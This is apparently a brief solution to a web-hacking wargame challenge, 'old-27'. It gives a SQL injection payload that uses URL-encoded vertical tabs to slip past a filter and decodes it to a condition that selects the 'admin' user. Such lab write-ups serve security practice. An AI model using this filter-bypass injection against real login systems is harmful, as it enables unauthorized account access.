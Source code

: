 # Webhacking old-27 Solution

we will insert this payload:
`0)||id%0blike%0b%27admin%27--%0b`

this is equivalent to this:
`0) or id like 'admin'-- `
